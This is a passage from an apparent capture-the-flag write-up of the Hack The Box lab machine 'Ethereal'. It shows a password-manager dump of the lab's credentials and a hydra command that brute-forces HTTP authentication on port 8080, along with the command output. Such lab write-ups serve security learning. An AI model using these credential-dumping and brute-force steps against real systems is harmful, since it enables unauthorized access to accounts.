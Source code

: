 ![pbox]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/pbox.png)

Using the `--dump` option, I was able to dump all the usernames and passwords and store them locally.

```bash
root@kali:~/Ethereal# ./pbox --dump
Enter your master password: ********
databases  ->  7oth3B@tC4v3!
msdn  ->  alan@ethereal.co / P@ssword1!
learning  ->  alan2 / learn1ng!
ftp drop  ->  Watch3r
backup  ->  alan / Ex3cutiv3Backups
website uploads  ->  R3lea5eR3@dy#
truecrypt  ->  Password8
management server  ->  !C414m17y57r1k3s4g41n!
svn  ->  alan53 / Ch3ck1ToU7>
```

That was it from FTP. I believe, the tedious process to just be able to obtain a dump is evidence that this box isn't an wasy one.

## HTTP

In the web browser, we get the following window as a welcome page.

![ethereal]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-80.png)

Moving around, I found a menu item called `Admin`, let's go there.

![ethereal-admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-admin.png)

Many menu items here as well. The only important one was `Ping`. Clicking on it redirected me to `ethereal.htb:8080` and gave me the following page.

![ethereal-8080]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-8080.png)

Time to add `ethereal.htb` to the `hosts` file. Also, the `Notes` menu took me to a page where it mentioned the name `Alan`, ring a bell? It's the same name that appeared in the `pbox` dump.

![ethereal-notes]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/admin-notes.png)

After the `hosts` file is updated, clicking the `Ping` option again got me an HTTP authentication page.

![ethereal-httpauth]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/httpauth-8080.png)

Fortunately, we have a list of usernames and passwords from the dump that we obtained earlier. Use that to brute-force the HTTP authentication.

```bash
root@kali:~/Ethereal# hydra -L usernames -P passwords -s 8080 -f ethereal.htb http-get /
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:4/p:9), ~3 tries per task
[DATA] attacking http-get://ethereal.htb:8080/
[8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
1 of 1 target successfully completed, 1 valid password found
```

